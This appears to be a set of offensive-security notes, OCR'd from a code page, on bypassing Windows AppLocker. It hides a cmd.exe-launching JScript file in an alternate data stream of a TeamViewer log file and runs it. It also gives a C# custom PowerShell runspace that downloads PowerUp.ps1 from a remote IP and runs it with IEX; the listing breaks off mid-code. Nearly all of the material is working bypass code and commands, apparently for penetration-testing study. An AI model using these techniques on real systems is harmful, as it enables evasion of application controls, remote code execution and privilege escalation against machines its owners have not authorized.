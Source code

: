 ### Alternate Data Streams

`test.js`

```js
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
```

TeamViewer version 12 uses a log file (`TeamViewer12_Logfile.log`) that is both writable and executable.

```bat
type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```

Verify that the Jscript code was written to the alternate data stream:

```bat
dir /r "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log"
```

```bat
wscript.exe "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```

### Third Party Execution

```bat
python test.py
```

## Bypassing AppLocker with PowerShell

```pwsh
$ExecutionContext.SessionState.LanguageMode

[Math]::Cos(1)
```

### Custom Runspaces

Allow arbitrary PowerShell execution

```bat
C:\Windows\Tasks\Bypass.exe
```

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            
            String cmd = "(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/PowerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath C:\\Tools\\test.txt";

            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
```